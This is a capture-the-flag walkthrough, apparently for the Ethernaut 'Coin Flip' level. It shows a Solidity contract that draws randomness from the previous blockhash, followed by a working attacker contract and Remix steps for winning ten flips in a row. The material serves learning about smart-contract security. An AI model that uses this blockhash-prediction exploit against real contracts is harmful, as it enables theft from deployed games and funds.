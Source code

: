 # 03 Coin Flip


```
his is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To 
complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.
```
####  code
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}

```

#### Start 


### (1) `Make consecutiveWins = 10`


Looking at the code, you can see that the value consecutiveWins can be incremented when the `if (side == _guess)` condition

We can see that the code is calculating the side. From here we can write another contract to calculate the correct side and then call the fucntion flip with the correct side

```
 uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
 uint256 blockValue = uint256(blockhash(block.number - 1));
 lastHash = blockValue;
 uint256 coinFlip = blockValue / FACTOR;
 bool side = coinFlip == 1 ? true : false;

```

You can no longer use Open Developer Tools (F12) alone. I suggest you use remix to write code and deploy contracts

#### This is the code I used to attack the CoinFlip contract
```

    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;


    interface CoinFlip {
        function flip(bool _guess) external returns (bool);
        function consecutiveWins() external view returns(uint256);
    }

    contract Hack {

        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

        function _getSide() private view returns(bool){
            uint256 blockValue = uint256(blockhash(block.number - 1));
            uint256 coinFlip = blockValue / FACTOR;
            bool side = coinFlip == 1 ? true : false;
            return side;
        }
            
        

        function exploitCoinFlip(address _targetExploit) external {
                require( CoinFlip(_targetExploit).flip(_getSide()) == true,"false");
        }

        function getConsecutiveWins (address _targetExploit) view external returns (uint256) {
            return  CoinFlip(_targetExploit).consecutiveWins();
        }

    }

```
- `function _getSide() private view returns(bool)`

    This function to calculate the correct side and called by function `exploitCoinFlip`

- `function exploitCoinFlip(address _targetExploit) external`

    This function call function `flip` in the target CoinFlip contract to increment the value `consecutiveWins`

- `function getConsecutiveWins (address _targetExploit) view external returns (uint256)`

    This function just check the value `consecutiveWins` how much is it now

Use the remix deploy contract `Hack`  then call the function `exploitCoinFlip(address _targetExploit)` 10 times

Click button Submit instance and confirm transaction

# !!! we passed !!!


